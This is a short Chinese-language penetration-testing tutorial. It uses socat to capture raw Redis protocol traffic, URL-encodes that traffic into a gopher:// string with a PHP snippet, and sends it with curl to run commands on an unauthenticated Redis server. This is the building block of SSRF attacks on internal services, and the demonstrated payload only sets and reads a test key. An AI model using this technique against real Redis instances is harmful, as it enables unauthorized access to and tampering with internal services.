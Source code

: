 ## 运用gopher 和 socat 进行网络渗透

---

socat是一个多功能的网络工具，名字来由是“Socket CAT”，可以看作是netcat的N倍加强版，socat 的官方网站：
[http://www.dest-unreach.org/socat/](http://www.dest-unreach.org/socat/)
网上搜到一个详细的[pdf文档](http://run.qixingyue.com/gopher/socat.pdf)

* 安装办法:

`$ yum install socat -y `

* 映射服务端口，本实例用redis举例，测试的是redis 空密码:

`$ socat -v tcp-listen:6377,fork tcp4:localhost:6379`

* 按照redis的方式访问6377端口，进行set,get 操作，*get到set的值，则认为是空密码*

`$ redis-cli -h localhost -p 6377 `
`$ set a hihackworld`
`$ get a `

* 在之前的socat命令运行中获得输入:

    *3\r
    $3\r
    set\r
    $1\r
    a\r
    $11\r
    hihackworld\r
    *2\r
    $3\r
    get\r
    $1\r
    a\r

* 运用任何一种熟悉的语言，对输入进行urlencode:

    $message = "*3\r
    $3\r
    set\r
    $1\r
    a\r
    $11\r
    hihackworld\r
    *2\r
    $3\r
    get\r
    $1\r
    a\r
    ";
    
    $gopherstr = "gopher://localhost:6379/_" . urlencode($message) ;
    echo $gopherstr;
* 运用curl组合gopher串进行测试:

    `curl -s <$gopherstr>`

    获取到输出该网络流的输出:

    +OK
    $11
    hihackworld

